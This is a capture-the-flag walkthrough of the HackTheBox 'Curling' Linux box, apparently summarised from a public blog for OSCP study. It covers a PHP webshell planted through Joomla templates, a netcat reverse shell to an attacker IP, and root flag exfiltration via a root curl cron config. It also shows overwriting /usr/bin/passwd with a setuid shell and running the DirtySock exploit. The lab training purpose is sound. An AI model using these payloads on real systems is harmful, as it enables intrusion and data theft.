 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

### 🧭 Recon

**Nmap full TCP scan:**
```
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.150
```
Ports open:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Nmap scripts and version detection:**
```
nmap -p 22,80 -sV -sC -oA nmap/scripts 10.10.10.150
```
Identified:
- [Apache](HTTP) 2.4.29 (Ubuntu)
- [OpenSSH](SSH) 7.6p1
- Joomla CMS on port 80

---

### 🌐 Joomla Web Enumeration

- Default page has a Joomla site titled "Curling"
- HTML source hint: `<!-- secret.txt -->`
- Navigating to `/secret.txt` reveals base64: `Q3VybGluZzIwMTgh`
- Decoded: `Curling2018!`
- Admin panel at `/administrator`, login successful with:
  - **Username**: floris
  - **Password**: Curling2018!

---

### ⚙️ Shell as www-data

**Webshell via Template Injection:**
1. Go to Templates → Beez3 → New File → PHP
2. Create `sh3ll.php` with `<?php system($_GET['0xdf']); ?>`
3. Access: `http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=id`

**Interactive shell via reverse shell:**
```bash
http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=cat%20/tmp/df%20|%20/bin/sh%20-i%202%3E%261%20|%20nc%2010.10.14.5%20443%20%3E%20/tmp/df
```
Listener:
```
nc -lnvp 443
```
User: `www-data`

---

### 📂 Privesc: www-data → floris

**Found in /home/floris/**:
- `password_backup`: hex-encoded multi-layer compressed file

**Extraction Process:**
1. Convert hex to binary: `xxd -r`
2. Unpack chain: `bunzip2` → `gunzip` → `bunzip2` → `tar`
3. Final file: `password.txt`

**Credentials:**
```
Username: floris
Password: 5d<wdCbdZu)|hChXll
```

Login:
```bash
su - floris
```

---

### 🔁 Privesc: floris → root

**Found folder**: `/home/floris/admin-area`

Files:
- `input`: curl config file
- `report`: output file

**pspy shows:**
```
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Runs as root every minute.

**Exfil root flag via POST:**
```text
url = "http://10.10.14.5"
data = @/root/root.txt
```
Setup listener:
```
nc -nlvp 80
```

**Alternative:** Read directly from file:
```text
url = "file:///root/root.txt"
output = /tmp/.0xdf
```

---

### 🧨 Root Shell via Overwrite

Create a C program:
```c
void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", 0);
}
```
Compile:
```
gcc -o setuid setuid.c
```
Host on HTTP server, then:
```text
url = "http://10.10.14.5/setuid"
output = /usr/bin/passwd
```
When cron runs:
```
/usr/bin/passwd → root shell
```

---

### 🧪 Beyond Root: Dirty Sock Exploit

**snapd version**: vulnerable
```
snap version
```
Upload & run DirtySock:
```
python3 dirty_sockv2.py
```
New user created:
- **Username**: dirty_sock
- **Password**: dirty_sock

Root access:
```bash
su dirty_sock
sudo su
```

**Note**: Setuid scripts (like Python) don't elevate privileges on most Linux systems.


**Source**: https://0xdf.gitlab.io/2021/03/30/htb-curling.html

